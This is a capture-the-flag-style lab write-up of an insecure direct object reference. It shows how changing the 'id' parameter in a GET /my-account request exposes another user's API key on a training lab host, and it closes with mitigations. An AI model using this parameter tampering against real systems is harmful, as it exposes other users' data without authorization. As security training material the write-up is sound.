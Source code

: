 ## 🛡️ Lab: User ID controlled by request parameter  
**Level**: Apprentice  
**Date**: August 20, 2025  
**Goal**: Exploit horizontal privilege escalation by manipulating the `id` parameter to access another user’s data.  

---

### 🧰 Tools  
- Burp Suite  
- Repeater  
- Browser  

---

### 🧭 Steps  

1. Logged in with the supplied credentials:  
   ```
   wiener:peter
   ```  

2. Navigated to **My Account** page.  
   - Observed the request:  
     ```
     GET /my-account?id=wiener
     ```

3. Sent this request to **Burp Repeater**.  

4. Modified the `id` parameter:  
   ```
   GET /my-account?id=carlos
   ```

5. The response contained **Carlos's API key**.  

6. Submitted the key to solve the lab.  

✅ **Lab Solved!**  

---

### 🧪 Payload Summary  

**Modified Request**:  
```
GET /my-account?id=carlos HTTP/1.1  
Host: YOUR-LAB-ID.web-security-academy.net  
Cookie: session=your-valid-session  
```  

---

### 🧠 What I Learned  

- This is a classic case of **Insecure Direct Object References (IDOR)**.  
- Simply relying on user-controlled parameters (`id`) for access control is **unsafe**.  
- Horizontal privilege escalation allows attackers to access **other users’ data** without needing admin access.  

---

### 🔐 Mitigation & Prevention  

- Enforce **server-side access control checks** for every request.  
- Never trust user-supplied parameters (`id`, `username`, etc.) to decide authorization.  
- Implement **session-based object ownership validation**.  
- Use **UUIDs** or unpredictable identifiers instead of sequential usernames/IDs.  
- Log and monitor for abnormal parameter tampering.  

---
